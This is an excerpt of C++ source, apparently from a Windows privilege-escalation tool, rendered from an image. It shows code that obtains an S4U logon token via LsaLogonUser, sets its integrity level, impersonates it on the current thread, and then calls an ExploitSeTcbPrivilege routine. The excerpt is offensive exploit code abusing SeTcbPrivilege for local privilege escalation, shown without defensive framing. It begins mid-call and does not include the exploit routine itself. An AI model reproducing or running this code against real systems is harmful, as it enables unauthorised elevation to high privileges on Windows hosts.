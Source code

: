 ```c++
		dwMsgS4ULength,
		pGroups,                // LocalGroups
		&TokenSource,           // SourceContext
		&pvProfile,
		&dwProfile,
		&logonId,
		&hTokenS4U,
		&quotaLimits,
		&subStatus
	);
	if (status != STATUS_SUCCESS)
	{
		wprintf(L"[-] LsaLogonUser Error: [0x%x].", status);
		goto Clear;
	}

	wprintf(L"[*] Set the token integrity level to medium.\n");

	TIL.Label.Attributes = SE_GROUP_INTEGRITY;
	TIL.Label.Sid = mediumSID;

	if (!SetTokenInformation(hTokenS4U, TokenIntegrityLevel, &TIL, sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(mediumSID)))
	{
		wprintf(L"[-] SetTokenInformation Error: [%u].\n", GetLastError());
	}

	hThread = GetCurrentThread();
	
	if (!SetThreadToken(&hThread, hTokenS4U))
	{
		wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
	}
	
	wprintf(L"[*] LsaLogonUser successfully and get S4U token: \n\n");

	if (!DisplayTokenInformation(hTokenS4U))
	{
		wprintf(L"[-] Failed to get S4U token information.\n");
	}

	wprintf(L"\n[*] Successfully impersonated S4U.\n");
	ExploitSeTcbPrivilege();

	goto Clear;

Clear:
	if (OriginName.Buffer)
		LocalFree(OriginName.Buffer);
	if (pLogonSid)
		LocalFree(pLogonSid);
	if (pExtraSid)
		LocalFree(pExtraSid);
	if (pS4uLogon)
		LocalFree(pS4uLogon);
	if (pGroups)
		LocalFree(pGroups);
	if (hLSA)
		LsaClose(hLSA);
	if (hToken)
		CloseHandle(hToken);
	if (hTokenS4U)
		CloseHandle(hTokenS4U);
```